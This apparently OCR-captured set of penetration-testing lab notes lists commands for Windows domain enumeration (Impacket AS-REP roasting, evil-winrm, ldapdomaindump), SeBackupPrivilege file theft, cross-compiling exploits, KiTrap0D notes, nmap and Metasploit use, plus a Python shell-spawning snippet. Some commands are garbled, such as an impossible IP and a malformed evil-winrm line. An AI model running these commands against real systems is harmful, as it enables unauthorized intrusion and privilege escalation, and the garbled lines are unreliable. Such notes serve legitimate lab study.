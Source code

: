 ```python
import os
try:
    os.system("/bin/bash")
except:
    pass
```

## Windows Enumeration

- Impacket: `impacket-GetNPUsers fusion.corp/ -usersfile user.txt -no-pass -dc-ip <IP>`
- Evil-WinRM: `evil-winrm /evil-winrm.rb -I <IP> -u lparker -p <password>`
- LDAP: `ldapdomaindump <IP> -u 'fusion.corp\\\\lparker' -p 'password'`

## Additional Tools

- [SeBackupPrivilege on GitHub](https://github.com/giuliano108/SeBackupPrivilege)

## File Operations

`copy-fileSeBackupPrivilege c:\\\\Users\\\\Administrator\\\\Desktop\\\\flag.txt c:/Users/jmurphy/flag.txt`

## Devel

- **Exploit File**: `windows/remote/19033.txt`

### FTP Commands
- `get`: Download from FTP server
- `put`: Upload to FTP server

### Compile
```bash
sudo apt-get install gcc-mingw-w64
i686-w64-mingw32-gcc-win32 input_code.c -lws2_32 -o output.exe
i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
```
Windows NT Kernel

    BIOS Support in Legacy 16-bit Apps: Uses Virtual-8086 mode
    Implementation: Two stages
    Transition: Triggered by #GP trap handler (nt!KiTrap0D) when it detects specific cs:eip values

## Nmap

- **Command**: `Nmap -sV(version) -sS(SYN) 909.12…`

## Metasploit

1. **Start**: `msfconsole`
2. **Search Target**: `search icecast(target)`
3. **Use Module**: `` `use icecast` or `use 0` `` (select this module)
4. **Show Options**: `show options`
